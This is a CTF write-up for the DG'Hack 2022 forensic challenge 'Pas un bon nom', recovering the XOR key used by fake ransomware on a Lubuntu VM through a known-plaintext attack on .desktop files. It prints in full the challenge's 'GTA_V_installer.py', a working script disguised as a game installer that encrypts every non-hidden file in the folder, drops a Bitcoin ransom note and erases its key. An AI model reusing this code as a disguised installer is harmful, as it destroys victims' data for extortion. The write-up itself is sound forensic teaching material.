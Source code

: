 ```yaml
---
createdAt: 2022-11-25
title: "[DG'Hack 2022 - Forensic] Pas un bon nom"
description: "Pas un bon nom is a challenge from DG'hack CTF."
type: 'Writeups'
tags: ["Forensic"]
---
```


# Not a good name - Pas Un Bon Nom

> author : malon 

### Intro 

> I was just sitting there on my PC, m'kay? I'm downloading movies and stuff, mkay? And then there's this weird message that I have to pay Dogecoin to decrypt my data. I didn't do it... so now my data is encrypted :( So here, take the hard drive, it's not like it's useful now... Unless it was possible to find the key used by that evil hacker, m'kay? Would you like it? You'd be lovely thank you!

```bash
ls 
#pc-jeane.ova
```

ova -> virtualbox

once started, we now know that the OS is Lubuntu

```bash
ls
#Desktop    Downloads           Music     Public                          Templates
#Documents  GTA_V_installer.py  Pictures  READ_TO_RETRIEVE_YOUR_DATA.txt  Videos
```

The two files with capitalized names stand out, and indeed
![image-20221111230502233](@/assets/images/blog/dghack/image6.png)

It seems that the owner has downloaded a lot of stuff including a supra legit GTA-V.

*GTA_V_installer.py*

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

All the non-hidden files present in /home/jeanne have been encrypted but fortunately, the encryption is simple, the files have just been XORied with a key.

reminder : 
$$
a \oplus b = c \newline
a \oplus c = b
$$
If we take a closer look at the list of encrypted files, we notice the 

- network.desktop
- trash-can.desktop
- user-home.desktop
- computer.desktop

These are the files that allow you to create shortcuts for launching applications from the desktop, by checking a little, I realize that they often have the same format, ( as long as there is no comment), but I decide to turn on a vm lubuntu that I had on hand to go and look for these files that have very strong chances to be the same

I get the two computer.desktop that I display both in hexa

![image-20221111233202365](@/assets/images/blog/dghack/image7.png)


Given computer(1).desktop=A (original file) and computer.desktop=C (our encrypted file) 

if you want to find the encryption key for the xor operation, you just have to xor A and C (to obtain B)

![image-20221111233550094](@/assets/images/blog/dghack/image8.png)

At a glance, the key quickly appears to us

```bash
REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=
```

But it looks like base64 encoded string so : 

```bash
echo -n "REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=" | base64d -d
#DGHACK{***...}
```

Here is our flag :)
